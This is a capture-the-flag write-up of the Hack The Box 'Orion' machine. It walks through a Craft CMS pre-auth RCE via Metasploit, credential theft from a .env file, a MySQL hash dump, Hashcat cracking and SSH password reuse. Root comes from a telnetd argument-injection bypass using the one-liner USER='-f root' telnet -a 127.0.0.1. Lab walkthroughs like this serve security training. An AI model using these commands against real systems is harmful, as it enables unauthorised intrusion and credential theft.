








# Hack The Box — Orion (Easy Linux)

**Platform:** Hack The Box 
**Difficulty:** Easy
**OS:** Linux
**Flags:** User ✅ | Root ✅

---

## Overview

Orion is an Easy-rated Linux machine hosting a Craft CMS installation. Initial access is obtained via CVE-2025-32432, an unauthenticated pre-auth remote code execution vulnerability in Craft CMS, exploited through a public Metasploit module. Database credentials recovered from the application's `.env` file allow direct MySQL access; a bcrypt password hash for a local user is dumped from the database and cracked offline, providing SSH access and the user flag. Privilege escalation targets a locally-bound Telnet service (port 23, loopback only) running a version of GNU InetUtils vulnerable to CVE-2026-24061 — an authentication bypass via unsanitised `USER` environment variable injection during Telnet's NEW_ENVIRON option negotiation, allowing an attacker to force `/usr/bin/login` into an unauthenticated root session.

---

## Reconnaissance

### Port Scan

An initial scan identified two open ports:

```
22/tcp  open  ssh
80/tcp  open  http
```

### Virtual Host Resolution

The web application required host header resolution and was added to the local hosts file:

```bash
echo "10.129.110.141 orion.htb" | sudo tee -a /etc/hosts
```

---

## Enumeration

### Web Application — Craft CMS Fingerprinting

Browsing to `http://orion.htb/` revealed a content management system. Further inspection of the exposed admin panel identified the CMS and version:

```
Craft CMS 5.6.16
```




A vulnerability search against this version identified **CVE-2025-32432** — an unauthenticated pre-authentication remote code execution flaw in Craft CMS.

---

## Exploitation — CVE-2025-32432

A Metasploit module was available for this CVE and was used to gain initial access:

```bash
msf6 > use linux/http/craftcms_preauth_rce_cve_2025_32432
msf6 exploit(...) > set RHOSTS 10.129.110.141
msf6 exploit(...) > set LPORT <listener_port>
msf6 exploit(...) > exploit
```



A shell session was obtained running as the web application service account.

---

## Post-Exploitation — Credential Harvesting

### User Enumeration

Reviewing `/etc/passwd` identified a local interactive-shell account:

```
adam:x:1000:1000::/home/adam:/bin/bash
```

### .env File — Database Credentials

The Craft CMS environment configuration file was read to recover database credentials:

```bash
cat .env
```

```
CRAFT_DB_DRIVER=mysql
CRAFT_DB_SERVER=127.0.0.1
CRAFT_DB_PORT=3306
CRAFT_DB_DATABASE=orion
CRAFT_DB_USER=root
CRAFT_DB_PASSWORD=SuperSecureCraft123Pass!
```



### MySQL — Extracting the admin Hash

The database was accessed directly using the recovered root credentials:

```bash
mysql -u root -p'SuperSecureCraft123Pass!' -e "USE orion; SELECT id, username, email, firstName, lastName, password FROM users;"
```

The query returned a bcrypt password hash for the `admin` user:

```
username : admin
password : $2y$13$e9zuohgFZzGtbQalcn9Mz.5PJbjxobO0GMbXo8NHp3P/B42LUg0lS
```

A full database dump was also taken for completeness:

```bash
mysqldump -u root -p'SuperSecureCraft123Pass!' --all-databases > all_databases.sql
```


### Offline Hash Cracking — Hashcat

The recovered hash was cracked offline using Hashcat in bcrypt mode (3200) against the rockyou wordlist:

```bash
echo '$2y$13$e9zuohgFZzGtbQalcn9Mz.5PJbjxobO0GMbXo8NHp3P/B42LUg0lS' > hash.txt
hashcat -m 3200 --potfile-disable hash.txt /usr/share/wordlists/rockyou.txt.gz
```

The hash cracked successfully:

```
Password : darkangel
```


### SSH Access as adam

The cracked password was tested against the `adam` account over SSH — a credential reuse case (the admin panel password matched the local Linux account):

```bash
ssh adam@10.129.110.141
# Password: darkangel
```

Login was successful.

---

## User Flag

```bash
cat /home/adam/user.txt
```

```
e8f484c43b6748f7a26b68c83f25ea6f
```



---

## Privilege Escalation — In Progress

### Process and Network Enumeration

With a shell as `adam`, active network connections were reviewed:

```bash
netstat -antp
```

```
tcp   127.0.0.1:3306   LISTEN   (MySQL, local only)
tcp   0.0.0.0:80       LISTEN   (HTTP)
tcp   0.0.0.0:22       LISTEN   (SSH)
tcp   127.0.0.1:23     LISTEN   (Telnet — localhost only)
```

A Telnet service was found listening on `127.0.0.1:23` — not exposed externally, but reachable from the local shell.

### Telnet Version Fingerprinting

The telnetd version was identified as:

```
GNU InetUtils 2.7
```



This version is vulnerable to **CVE-2026-24061** — a critical (CVSS 9.8) authentication bypass in GNU InetUtils telnetd, publicly disclosed in January 2026. The flaw arises because telnetd forwards the client-supplied `USER` environment variable — set via the Telnet protocol's `NEW_ENVIRON` option during connection negotiation — directly into the invocation of `/usr/bin/login` without sanitisation. Setting `USER` to `-f root` causes `login` to interpret it as the `-f` flag (skip authentication) targeting the `root` account, granting an immediate, unauthenticated root shell.

### Exploitation — CVE-2026-24061

Since the Telnet service was bound to `127.0.0.1:23`, it was reachable directly from the local `adam` shell without needing an additional tunnel. The `USER` environment variable was set to the injection payload and the local `telnet` client was invoked with the `-a` (auto-login) flag, which forwards the local `USER` variable to the server during NEW_ENVIRON negotiation:

```bash
USER="-f root" telnet -a 127.0.0.1
```

The telnetd process passed this value straight through to `/usr/bin/login` as `login -f root`, which — interpreting `-f` as "skip authentication for this user" — granted an immediate root shell with no password prompt.


---

## Root Flag

```bash
cat /root/root.txt
```

```
b387b8034ea9b86e8b714f9008e3b229
```



---

## Summary

| Step | Technique | Result |
|---|---|---|
| **Foothold** | CVE-2025-32432 (Craft CMS Pre-Auth RCE) | Shell as `www-data` |
| **User** | `.env` MySQL creds → dumped bcrypt hash → cracked offline → password reuse on SSH | `adam` / `darkangel` |
| **Root** | CVE-2026-24061 (GNU InetUtils telnetd Auth Bypass via NEW_ENVIRON) | `root` |

---

## Key Takeaways

- **Pre-authentication RCE vulnerabilities in CMS platforms** remain one of the highest-value initial access vectors available to an attacker — no credentials or user interaction are required, and public Metasploit modules significantly lower the barrier to exploitation.
- **`.env` files containing database root credentials** are a critical exposure. `CRAFT_DB_PASSWORD` being both the MySQL root password and discoverable from a shell as the web service account collapsed the boundary between "compromised web app" and "full database access" instantly.
- **Password reuse between application-layer accounts and OS-level accounts** (the cracked `admin` panel password also being `adam`'s SSH password) is a recurring theme across environments — one weak, reused credential can bridge otherwise separate trust boundaries.
- **Locally-bound legacy services are not a safe assumption.** Telnet being restricted to `127.0.0.1` prevented external exposure, but did nothing to stop a low-privileged local user from exploiting it directly — "not reachable from the network" is not equivalent to "not exploitable."
- **CVE-2026-24061 is a stark reminder that argument injection vulnerabilities in decades-old code can persist for over a decade unnoticed.** The flaw stemmed from a 2015 code change that introduced a `%U` placeholder into telnetd's login invocation template without validating the substituted value — a reminder that even mature, widely-deployed software benefits from periodic security review of legacy code paths.